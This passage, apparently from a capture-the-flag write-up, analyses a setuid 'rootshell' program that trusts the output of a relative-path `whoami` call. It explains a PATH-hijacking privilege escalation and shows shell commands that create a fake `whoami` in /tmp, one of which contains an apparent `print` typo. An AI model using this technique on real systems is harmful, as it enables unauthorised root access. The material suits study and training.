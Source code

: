 > Source code of `rootshell` is available.
{: .prompt-info }

### exploit rootshell file
#### test execute
```bash
$ ./rootshell
checking if you are tom...
you are: www-data
```

We somehow need to fake our current user.

#### source code of rootshell
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main() {

    printf("checking if you are tom...\n");
    FILE* f = popen("whoami", "r");

    char user[80];
    fgets(user, 80, f);

    printf("you are: %s\n", user);
    //printf("your euid is: %i\n", geteuid());

    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n");
	setuid(geteuid());
        execlp("sh", "sh", (char *) 0);
    }
}
```
Program checks if the current user is `tom`. if this is the case the pogram allows to execute commands with root privileges.  
As we are `www-data` data we first need to be `tom` or make the program believe we are `tom`.  
The program just performs a `whoami` and reads the response.  
> As the program does not execute `whoami` from its absolute path,  we just can create a program which prints `tom`, call it `whoami` and adding the folder where it is stored (e.g. `tmp`) in front of the `$PATH` variable.
{: .prompt-tip }

### create the fake `whoami`
```bash
$ cd /tmp
$ print "printf 'tom'" > whoami
$ chmod +x whoami
```
